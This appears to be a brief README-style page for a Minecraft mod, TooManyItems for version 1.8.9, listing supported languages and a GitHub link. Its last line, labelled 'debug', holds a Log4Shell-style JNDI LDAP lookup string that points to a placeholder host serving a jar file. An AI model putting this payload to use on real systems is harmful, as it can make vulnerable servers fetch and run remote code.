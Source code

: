 # Supported languages:
- English
- International Phonetic Alphabet
- Autistic Chinese
- lang.128.name

## TOOMANYITEMS MOD 1.8.9 (Upgrated by me)
github.com/HowardZHY/TooManyItems

debug: ${jndi:ldap://exploit.example.com:21/exploit/example.jar}
